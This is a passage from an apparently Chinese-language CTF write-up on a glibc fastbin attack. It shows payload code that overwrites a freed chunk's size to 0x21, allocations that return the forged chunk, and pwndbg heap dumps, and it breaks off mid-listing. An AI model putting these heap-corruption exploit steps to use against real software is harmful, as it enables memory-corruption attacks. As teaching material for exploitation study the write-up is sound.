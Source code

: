 > 此时结构体状况未发生改变。
>

### 1-5、对index3进行fill，将index4的大小修改为0x21
```c
#然后再通过index3去进行写入,把index4的大小改成0x21
#这么做是因为当申请index4这块内存的时候,他会检查大小是不是fastbin的范围内（请注意这点)
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)
```

```c
0x555555757000:	0x0000000000000000	0x0000000000000021 #index0
0x555555757010:	0x0000000000000000	0x0000000000000000
0x555555757020:	0x0000000000000000	0x0000000000000021 #index1
0x555555757030:	0x0000000000000000	0x0000000000000000
0x555555757040:	0x0000000000000000	0x0000000000000021 #index2（fastbin）
0x555555757050:	0x0000555555757080	0x0000000000000000
0x555555757060:	0x0000000000000000	0x0000000000000021 #index3
0x555555757070:	0x0000000000000000	0x0000000000000000
0x555555757080:	0x0000000000000000	0x0000000000000021 #index4（fastbin）
--------------------------------------------------------------    
执行payload前原来的内容为：
0x555555757080:	0x0000000000000000	0x0000000000000091 #index4（fastbin）
-------------------------------------------------------------- 
.....（省略内容均为空）
0x555555757110:	0x0000000000000000	0x0000000000020ef1 #top_chunk
.....（省略内容均为空）
0x555555757180:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

**<font style="color:#F5222D;">再次强调，在申请fastbin中内存时，会检查被释放堆块的size（大小）是否在fastbin的范围内，如果不在，程序则异常退出，这有关于fastbin的机制。</font>**

> 结构体状况未发生改变。
>

### <font style="color:#000000;">1-6、申请index4</font>
```c
#改好index4的大小之后去申请两次，这样就把原来的fastbin中的给申请出来了
alloc(0x10)
alloc(0x10)
#申请成功之后index2就指向index4
```

首先是两个malloc，前面fastbin里一开始是两个chunk，分别为index2->index1，后来我们修改index2->fd为index4的地址，fastbin里变为index2->index4。第一个malloc会先分配index2给我们（fastbin分配原则是LIFO即后进先出），第二个malloc会将index4分配给我们。

看一下堆：

```c
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555757020
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555757040
Size: 0x21

Allocated chunk | PREV_INUSE
```